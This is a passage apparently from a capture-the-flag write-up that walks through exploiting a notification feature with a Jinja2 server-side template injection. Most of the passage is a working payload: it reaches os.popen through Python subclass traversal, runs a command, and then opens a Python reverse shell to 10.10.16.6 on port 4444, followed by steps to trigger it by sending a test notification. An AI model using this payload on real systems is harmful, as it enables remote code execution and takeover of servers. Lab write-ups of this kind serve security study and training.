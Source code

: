 * Give a dummy title to the notification 
* In the notification Body we add this payload 

<pre><code>
# Calling os.popen without guessing the index of the class
&#123;% for x in ().__class__.__base__.__subclasses__() %&#125;
  &#123;% if "warning" in x.__name__ %&#125;
    &#123;&#123;x()._module.__builtins__['__import__']('os').popen("ls").read()&#125;&#125;
  &#123;% endif %&#125;
&#123;% endfor %&#125;

&#123;% for x in ().__class__.__base__.__subclasses__() %&#125;
  &#123;% if "warning" in x.__name__ %&#125;
    &#123;&#123;x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.6\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)&#125;&#125;
  &#123;% endif %&#125;
&#123;% endfor %&#125;
</code></pre>

 `RCE` that opens a `reverse shell` using `jinja2` template payload.  
 
 <br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927204955.png" alt="1" style="width:700px; height:auto;">
<br/>

* Save the changes and select `Send test notification` 

<br/> 